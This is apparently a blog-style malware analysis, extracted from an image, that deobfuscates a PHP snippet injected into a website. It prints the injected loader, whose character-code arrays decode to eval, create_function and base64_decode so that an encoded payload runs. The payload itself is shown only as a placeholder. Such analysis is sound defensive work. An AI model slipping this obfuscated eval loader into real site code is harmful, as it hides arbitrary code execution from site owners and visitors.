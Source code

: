 	/*5b71e190dfb2710d2d7383f6cb95ad21_off*/

Well well well, this is some nice PHP! The problem are those not-really-so-readable function names. So let's give them better ones.

	/*malware_on*/ 
	$array1= array('7055','7072','7051','7062'); 
	$array2= array('7890','7905','7892','7888','7907','7892','7886','7893','7908','7901','7890','7907','7896','7902','7901'); 
	$array3= array('3579','3578','3596','3582','3535','3533','3576','3581','3582','3580','3592','3581','3582'); 
	$huge_string="SOME 9550 CHARACTER STRING"; 
	if (!function_exists("function1")) 
	{ 
		function function1($argument1,$argument2) 
		{ 
			$string1 = ''; 
			foreach($argument1 as $thing) 
			{ 
				$string1 .= chr($thing - $argument2); 
			} 
			return $string1; 
		} 
		$result1 = function1($array1,6954); 
		$result2 = function1($array2,7791); 
		$result3 = function1($array3,3481); 
		$final_result = $result2('$argument',$result1.'('.$result3.'($argument));'); 
		$final_result($huge_string); 
	} 
	/*malware_off*/ 

Now, this is better. We're dealing, as we could easily expect, with some PHP code being injected on top of the regular PHP code of the site. Let's take this by parts.

First thing that looks shady is that massive *$huge_string*. It must be of course some sort of payload that does something evil and despicable, but we don't really know how it actually *does it*. It's just a string there, isn't it? And there aren't any *eval*s or anything! Wait. Let's look at that function. It takes two arguments, being *argument1* a list of integers and *argument2* a single integer. It builds and returns a string by combining those numbers and translating them to their correspondent ASCII characters. With that we can calculate the values of the first three results:

	$result1 = eval 
	$result2 = create_function 
	$result3 = base64_decode 

Hah! Those who know a bit about typical PHP payloads will very easily see what's going on here. But let's keep looking at it. We have now *$final_result*. It looks like this

	$final_result = create_function('$argument', 'eval(base64_decode($argument));');

In other words, we're defining this function:

	function $final_result($argument) 
	{ 
		eval(base64_decode($argument); 
	}

